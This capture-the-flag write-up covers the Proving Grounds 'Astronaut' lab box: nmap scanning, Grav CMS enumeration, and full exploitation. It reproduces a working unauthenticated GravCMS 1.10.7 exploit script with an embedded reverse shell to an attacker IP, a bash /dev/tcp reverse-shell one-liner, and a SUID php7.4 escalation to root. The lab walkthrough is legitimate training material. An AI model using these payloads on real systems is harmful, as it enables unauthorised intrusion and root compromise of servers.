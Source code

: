```yaml
---
layout: default
title: Astronaut
parent: Proving Grounds Practice - Linux
nav_order: 8
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.184.12
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-27 21:59 EST
Nmap scan report for 192.168.184.12
Host is up (0.066s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-title: Index of /
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.03 seconds

```

# Enumeration

---

## HTTP | 80

![folder](../../../assets/images/ctfs/proving_grounds/astronaut/folder.png)

This leads to the directory _/grav-admin_ and run Gobuster here.

_robots.txt_

```bash
Disallow: /backup/ # forbidden
Disallow: /bin/ # forbidden
Disallow: /cache/ # forbidden
Disallow: /grav/ #interesting
Disallow: /logs/ # forbidden
Disallow: /system/ # forbidden
Disallow: /vendor/ # forbidden
Disallow: /user/ # forbidden
Allow: /user/pages/ # forbidden
Allow: /user/themes/ # forbidden
Allow: /user/images/ # interesting
Allow: /
Allow: *.css$
Allow: *.js$
Allow: /system/*.js$
```

_/grav-admin/admin_ returns a login page

![admin](../../../assets/images/ctfs/proving_grounds/astronaut/admin.png)

# Exploitation

---

Searchsploit shows a Grav CMS exploit.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/astronaut]
└─$ searchsploit grav
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------

GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2)    | php/webapps/49973.py
```

Checking the exploit there is Base64 Encoded value we need to replace with a reverse shell one-liner to our attack machine.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/astronaut]
└─$ cat 49973.py
# Exploit Title: GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2)
# Original Exploit Author: Mehmet Ince
# Vendor Homepage: https://getgrav.org
# Version: 1.10.7
# Tested on: Debian 10
# Author: legend

#/usr/bin/python3

import requests
import sys
import re
import base64
target= "http://192.168.184.12/grav-admin"
#Change base64 encoded value with with below command.
#echo -ne "bash -i >& /dev/tcp/192.168.1.3/4444 0>&1" | base64 -w0
payload=b"""/*<?php /**/
file_put_contents('/tmp/rev.sh',base64_decode('YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIxNy80NDQ0IDA+JjE='));chmod('/tmp/rev.sh',0755);system('bash /tmp/rev.sh');
"""
s = requests.Session()
r = s.get(target+"/admin")
adminNonce = re.search(r'admin-nonce" value="(.*)"',r.text).group(1)
if adminNonce != "" :
    url = target + "/admin/tools/scheduler"
    data = "admin-nonce="+adminNonce
    data +='&task=SaveDefault&data%5bcustom_jobs%5d%5bncefs%5d%5bcommand%5d=/usr/bin/php&data%5bcustom_jobs%5d%5bncefs%5d%5bargs%5d=-r%20eval%28base64_decode%28%22'+base64.b64encode(payload).decode('utf-8')+'%22%29%29%3b&data%5bcustom_jobs%5d%5bncefs%5d%5bat%5d=%2a%20%2a%20%2a%20%2a%20%2a&data%5bcustom_jobs%5d%5bncefs%5d%5boutput%5d=&data%5bstatus%5d%5bncefs%5d=enabled&data%5bcustom_jobs%5d%5bncefs%5d%5boutput_mode%5d=append'
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    r = s.post(target+"/admin/config/scheduler",data=data,headers=headers)

```

Once the exploit executes we should be able to trigger the PHP reverse shell at the endpoint _/tmp/rev.sh_

![rev](../../../assets/images/ctfs/proving_grounds/astronaut/rev.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.184.12] 59570
bash: cannot set terminal process group (69285): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gravity:~/html/grav-admin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@gravity:~/html/grav-admin$

```

# Post-Exploitation

---

## Check SUID Permissions

Checking SUID bit for interesting files we see _/usr/bin/php7.4_ and should be able to get a root shell by exploiting this.

![gtfo](../../../assets/images/ctfs/proving_grounds/astronaut/gtfo.png)

```bash
www-data@gravity:/dev/shm$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/at
/usr/bin/su
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.4
/usr/bin/gpasswd
www-data@gravity:/dev/shm$ CMD="/bin/bash"
CMD="/bin/bash"
www-data@gravity:/dev/shm$ /usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
</usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
whoami
root

```
